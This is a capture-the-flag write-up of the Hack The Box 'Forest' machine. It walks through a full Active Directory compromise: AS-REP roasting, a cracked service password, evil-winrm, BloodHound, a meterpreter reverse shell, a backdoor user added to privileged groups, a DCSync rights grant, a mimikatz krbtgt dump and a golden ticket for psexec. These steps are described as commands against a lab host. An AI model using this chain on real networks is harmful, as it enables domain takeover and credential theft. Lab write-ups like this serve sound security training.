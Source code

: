 ```yaml
---
title: Forest HTB Writeup
date: '2020-03-21 18:10:00'
categories: ["htb"]
banner_img: /img/Forest.png
---
```


# Forest 🌲

# Recon  

A lot of open ports found in this windows box `53,88,135,139,389,445,464,593,636,3268,3269`, First I am going to try smb on port 445 using smbmap `smbmap -H 10.10.10.161` to see if any of the shares are open, but nothing. At this point I run enum4linux hopefully getting some juicy usernames to try on smbmap. `enum4linux -U 10.10.10.161`, I get a list of usernames and I write it to a notepad. I try some of the but nothing comes up.So at this point smb does't do much for me. I try to look into ldap using jxplorer, but nothing there also. Since there is kerberos, I download impacket and look into the examples script. There is a script which allows me to grab tgt of some users which kerberos does not require them preauthentication. I will use this command `./GetNPUsers.py htb.local/ -no-pass -usersfile user.txt`, I get a result of the tgt for user *svc-alfresco*, I crack this using hashcat, and get the password *s3rvice*.

# User

Trying this user with smb does not give me much neither does with any other service on the ports we found. So I scan again using nmap on all ports and find out winrm port open `5985`. I use a tool named evil-winrm to get a powershell shell on the box, and grab user.txt.

# Root

I upload to the box and import using `. .\bloodhound.ps1`, 2 powershell scripts, first is **bloodhound.ps1** and the other is **powerview.ps1**.
 
 1. I am going to run BloodHound.ps1  `Invoke-Bloodhound -CollectionMethod All -LdapPort 389 -LdaPpass s3rvice`, this would create a zip file which I copy to my local box, and after that I import it to bloodhound application to view a path to *Domain admin*.
 
 ![screen](https://user-images.githubusercontent.com/16364370/68093937-0b047580-fe93-11e9-8c46-a0978709410e.png)
 
  I generate an exe file using msfvenom and upload it into the box using impacket-smbserver. I execute the file and get a    meterpreter shell on my host. I create a new user using `net user fuxsocy passwordhere! /add` and then add him to account *operators group* and *exchange windows permission* and `remote managemenet` by typing `net GroupNAMEHERE group_name fuxsocy /add`.
  
  2. Now I log out from evil-winrm and login as the new created user. I upload get again a meterpreter reverse shell, and now since I am member of EXCHANGE WINDOWS PERMISSIONS i have permision to modifyd DACL(Discretionary Access Control List) which will grant me access to an object. I open powershell from meterpreter by opening  `shell` and then `powershell.exe` I import `. .\powerview.ps1` I type *`Add-DomainObjectAcl -TargetIdentity htb.local -Rights DCSync`*. If no erros shows then I am good to go. I upload *mimkatz* on the box, and run it using `.\mimikatz.exe`. Then I type lsa::dsync /user:krbtgt and grab the output from it.

-------------
  
  Since I have the tgt of that krbtgt user I can use ticketer.py from impacket to create a golden ticket. `python ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain HTB.local administrator` and then set the filename to a variable named KRB5CCNAME using `export KRB5CCNAME=administrator.ccache`, now I have golden ticket which I can use with psexec to execute commands on the box as administator. I use `psexec.py -k -n htb.local/administrator@forest.htb.local cmd.exe` Which will pop a shell as nt authority\system.